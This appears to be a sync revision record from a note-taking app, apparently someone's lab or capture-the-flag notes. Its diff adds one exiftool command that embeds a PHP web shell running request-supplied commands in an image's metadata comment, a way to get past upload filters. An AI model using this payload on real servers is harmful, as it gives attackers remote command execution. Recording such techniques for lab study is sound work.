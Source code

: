 id: 1cd3346a510d47e38c32b2cbd363afbc
parent_id: e27c629918e841aa9f9c926cbdd1f5e5
item_type: 1
item_id: cfb5a6ee4d8d43268661b230cc45b613
item_updated_time: 1652287596591
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"gic.html\"],[1,\" \\\n\\\n```\\\nexiftool -Comment='<?php echo \\\"<pre>\\\"; system($_REQUEST['cmd']); ?>' chronos.php.jpg\\\n```\"]],\"start1\":89,\"start2\":89,\"length1\":8,\"length2\":103}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-11T16:55:16.788Z
created_time: 2022-05-11T16:55:16.788Z
type_: 13